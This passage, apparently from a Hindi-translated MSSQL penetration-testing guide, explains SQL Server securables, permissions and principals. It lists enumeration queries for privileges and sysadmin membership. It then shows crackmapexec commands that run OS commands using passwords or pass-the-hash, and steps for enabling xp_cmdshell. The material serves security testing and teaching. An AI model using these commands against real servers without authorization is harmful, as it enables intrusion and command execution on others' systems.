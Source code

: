 1. **Securable:** access control के लिए SQL Server द्वारा प्रबंधित संसाधनों के रूप में परिभाषित। इन्हें श्रेणियों में बांटा गया है:
- **Server** – उदाहरणों में शामिल हैं databases, logins, endpoints, availability groups, और server roles।
- **Database** – उदाहरणों में database role, application roles, schema, certificates, full text catalogs, और users शामिल हैं।
- **Schema** – इसमें tables, views, procedures, functions, synonyms, आदि शामिल हैं।
2. **Permission:** SQL Server securables से संबंधित, ALTER, CONTROL, और CREATE जैसे permissions किसी principal को दिए जा सकते हैं। Permissions का प्रबंधन दो स्तरों पर होता है:
- **Server Level** — logins के उपयोग से
- **Database Level** — users के उपयोग से
3. **Principal:** यह शब्द उस entity को दर्शाता है जिसे किसी securable के लिए permission दिया गया हो। Principals में मुख्यतः logins और database users शामिल होते हैं। Securables तक पहुँच पर नियंत्रण permissions देने या अस्वीकार करने के माध्यम से या logins और users को access rights वाले roles में शामिल करके ejercised किया जाता है।
```sql
# Show all different securables names
SELECT distinct class_desc FROM sys.fn_builtin_permissions(DEFAULT);
# Show all possible permissions in MSSQL
SELECT * FROM sys.fn_builtin_permissions(DEFAULT);
# Get all my permissions over securable type SERVER
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
# Get all my permissions over a database
USE <database>
SELECT * FROM fn_my_permissions(NULL, 'DATABASE');
# Get members of the role "sysadmin"
Use master
EXEC sp_helpsrvrolemember 'sysadmin';
# Get if the current user is sysadmin
SELECT IS_SRVROLEMEMBER('sysadmin');
# Get users that can run xp_cmdshell
Use master
EXEC sp_helprotect 'xp_cmdshell'
```
## ट्रिक्स

### OS कमांड्स निष्पादित करें

> [!CAUTION]
> ध्यान दें कि कमांड्स निष्पादित करने के लिए केवल **`xp_cmdshell`** **enabled** होना ही पर्याप्त नहीं है, बल्कि **EXECUTE permission on the `xp_cmdshell` stored procedure** भी होना चाहिए। आप यह जान सकते हैं कि कौन (sysadmins को छोड़कर) **`xp_cmdshell`** का उपयोग कर सकता है:
>
> ```sql
> Use master
> EXEC sp_helprotect 'xp_cmdshell'
> ```
```bash
# Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
# Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'

# Check if xp_cmdshell is enabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE

```